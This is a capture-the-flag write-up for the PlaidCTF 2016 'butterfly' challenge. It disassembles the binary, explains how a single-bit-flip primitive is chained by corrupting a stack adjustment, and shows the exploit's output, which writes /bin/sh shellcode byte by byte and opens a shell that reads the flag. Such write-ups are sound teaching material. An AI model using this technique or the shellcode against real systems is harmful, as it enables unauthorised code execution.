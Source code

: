 
##  PlaidCTF 2016 - butterfly (Pwn 150)
##### 15/04 - 17/02/2016 (48hr)

___
### Description: 
Sometimes the universe smiles upon you. And sometimes, well, you just have to roll 
your sleeves up and do things yourself. Running at butterfly.pwning.xxx:9999

___
### Solution
Binary was fairly easy to reverse. There's only the main() function:

```assembly
.text:004007A9 E8 72 FE FF FF        call    _setbuf
.text:004007AE BF 14 09 40 00        mov     edi, offset s                   ; "THOU ART GOD, "...
.text:004007B3 E8 48 FE FF FF        call    _puts
.text:004007B8 48 8B 15 71 05 20+    mov     rdx, cs:stdin@@GLIBC_2_2_5      ; stream
.text:004007BF 48 8D 3C 24           lea     rdi, [rsp+68h+var_68]           ; s
.text:004007C3 BE 32 00 00 00        mov     esi, 32h                        ; n
.text:004007C8 E8 73 FE FF FF        call    _fgets
.text:004007CD 41 BE 01 00 00 00     mov     r14d, 1
.text:004007D3 48 85 C0              test    rax, rax
.text:004007D6 74 75                 jz      short CLEANUP_40084D
.text:004007D8 48 8D 3C 24           lea     rdi, [rsp+68h+var_68]           ; nptr
.text:004007DC 31 F6                 xor     esi, esi                        ; endptr
.text:004007DE 31 D2                 xor     edx, edx                        ; base
.text:004007E0 E8 6B FE FF FF        call    _strtol                         ; base is zero
.text:004007E5 48 89 C3              mov     rbx, rax
.text:004007E8 48 89 DD              mov     rbp, rbx
.text:004007EB 48 C1 FD 03           sar     rbp, 3                          ; magic >> 3 (sign extend)
.text:004007EF 49 89 EF              mov     r15, rbp
.text:004007F2 49 81 E7 00 F0 FF+    and     r15, 0FFFFFFFFFFFFF000h         ; make address multiple of a page (otherwise mprotect will fail)
.text:004007F9 BE 00 10 00 00        mov     esi, 1000h                      ; len
.text:004007FE BA 07 00 00 00        mov     edx, 7                          ; prot
.text:00400803 4C 89 FF              mov     rdi, r15                        ; addr
.text:00400806 E8 55 FE FF FF        call    _mprotect
.text:0040080B 85 C0                 test    eax, eax
.text:0040080D 75 5C                 jnz     short MPROTECT_1_FAIL_40086B
.text:0040080F 80 E3 07              and     bl, 7                           ; get 3 LSBits of magic
.text:00400812 41 BE 01 00 00 00     mov     r14d, 1
.text:00400818 B8 01 00 00 00        mov     eax, 1
.text:0040081D 88 D9                 mov     cl, bl
.text:0040081F D3 E0                 shl     eax, cl                         ; and use them as a mask
.text:00400821 0F B6 4D 00           movzx   ecx, byte ptr [rbp+0]
.text:00400825 31 C1                 xor     ecx, eax
.text:00400827 88 4D 00              mov     [rbp+0], cl                     ; *(magic >> 3) ^= (1 << (magic & 7)) (FLIP 1 BIT)
.text:0040082A BE 00 10 00 00        mov     esi, 1000h                      ; len
.text:0040082F BA 05 00 00 00        mov     edx, 5                          ; prot
.text:00400834 4C 89 FF              mov     rdi, r15                        ; addr
.text:00400837 E8 24 FE FF FF        call    _mprotect                       ; make it R+X again
.text:0040083C 85 C0                 test    eax, eax
.text:0040083E 75 37                 jnz     short MPROTECT_2_FAIL_400877
.text:00400840 BF 56 09 40 00        mov     edi, offset aWasItWorthIt??     ; "WAS IT WORTH IT???"
.text:00400845 E8 B6 FD FF FF        call    _puts
.text:0040084A 45 31 F6              xor     r14d, r14d
.text:0040084D
.text:0040084D                   CLEANUP_40084D:                             ; CODE XREF: main+4Ej
.text:0040084D                                                               ; main+EDj ...
.text:0040084D 64 48 8B 04 25 28+    mov     rax, fs:28h
.text:00400856 48 3B 44 24 40        cmp     rax, [rsp+68h+var_28]
.text:0040085B 75 26                 jnz     short CANARY_FAILED_400883
.text:0040085D 44 89 F0              mov     eax, r14d
.text:00400860 48 83 C4 48           add     rsp, 48h
.text:00400864 5B                    pop     rbx
.text:00400865 41 5E                 pop     r14
.text:00400867 41 5F                 pop     r15
.text:00400869 5D                    pop     rbp
.text:0040086A C3                    retn
```

Here, we can flip 1 bit from an arbitrary memory location. Obviously 1 bit is not enough, but
if we do this multiple times, we can write a shellcode (setbuf() allows us to use a /bin/sh 
shellcode).

The first important thing is here:
```assembly
	.text:004007C3 BE 32 00 00 00        mov     esi, 32h                        ; n
	.text:004007C8 E8 73 FE FF FF        call    _fgets
```

This means that we can write 50 bytes on the stack. atoi() will deal only with the first part and
will ingore the rest so we're ok. The second important part is this:
```assembly
	.text:0040085B 75 26                 jnz     short CANARY_FAILED_400883
	.text:0040085D 44 89 F0              mov     eax, r14d
	.text:00400860 48 83 C4 48           add     rsp, 48h
```
Here, after the canary is checked, we delete the stack frame. If we choose to flip 7th bit from
address 0x00400864, then the new address will be:
```
	.text:00400860 48 83 C4 08           add     rsp, 8
```	
The stack pointer won't be alinged anymore and it will point at a higher location, inside the 
gets() buffer. This means that we can control the return address. We choose to return at the
beginning of main() and repeat the same attack. However that instruction will still be 
(add rsp, 8), so we can flip another bit and return to the main() again.

The plan is to find a safe location (X bit enabled) and place our shellcode there. Then instead
of returning to main we'll return to our shellcode. Let's place the shellcode at __libc_csu_init.
We read the original contents of from this address and we XOR them with the desired shellcode.
Then when we'll flip the bits the original contents will be canceled (double XOR) and the shellcode
will left.

The source code is shown at butterfly_expl.py. The flag is: `PCTF{b1t_fl1ps_4r3_0P_r1t3}`.

```
root@nogirl:~/ctf/plaidctf# ./butterfly_expl.py 
	Writing Shellcode byte #1: 01110000 (31)
	Writing Shellcode byte #2: 10100001 (f6)
	Writing Shellcode byte #3: 00001001 (48)
	Writing Shellcode byte #4: 11101101 (bb)
	Writing Shellcode byte #5: 01101110 (2f)
	Writing Shellcode byte #6: 11101011 (62)
	Writing Shellcode byte #7: 10010110 (69)
	Writing Shellcode byte #8: 00101111 (6e)
	Writing Shellcode byte #9: 01111010 (2f)
	Writing Shellcode byte #10: 01101110 (2f)
	Writing Shellcode byte #11: 00100111 (73)
	Writing Shellcode byte #12: 00100100 (68)
	Writing Shellcode byte #13: 11011011 (56)
	Writing Shellcode byte #14: 01110110 (53)
	Writing Shellcode byte #15: 01000010 (54)
	Writing Shellcode byte #16: 01011101 (5f)
	Writing Shellcode byte #17: 01001010 (6a)
	Writing Shellcode byte #18: 00111011 (3b)
	Writing Shellcode byte #19: 00001101 (58)
	Writing Shellcode byte #20: 01111001 (31)
	Writing Shellcode byte #21: 01011111 (d2)
	Writing Shellcode byte #22: 00100010 (0f)
	Writing Shellcode byte #23: 00010011 (05)
	Returning to shellcode...
	*** Opening Shell ***
		id
			uid=1001(problem) gid=1001(problem) groups=1001(problem)
		ls -la
			total 28
			drwxr-x--- 2 root problem 4096 Apr 15 21:49 .
			drwxr-xr-x 4 root root    4096 Apr 15 17:50 ..
			-rwxr-xr-x 1 root root    8328 Apr 15 18:26 butterfly
			-r--r----- 1 root problem   28 Apr 15 18:28 flag
			-rwxr-xr-x 1 root root     219 Apr 15 21:49 wrapper
		cat flag
			PCTF{b1t_fl1ps_4r3_0P_r1t3}
		cat wrapper
			#!/bin/bash
			DIR="$( cd "$( dirname "${BASH_SOURCE[0]}" )" && pwd )"
			cd $DIR
			ulimit -S -c 0 -t 20 -f 1000000 -v 1000000
			ulimit -H -c 0 -t 20 -f 1000000 -v 1000000
			exec nice -n 15 timeout -s 9 300 /home/problem/butterfly
		exit
	*** Connection closed by remote host ***
```
___
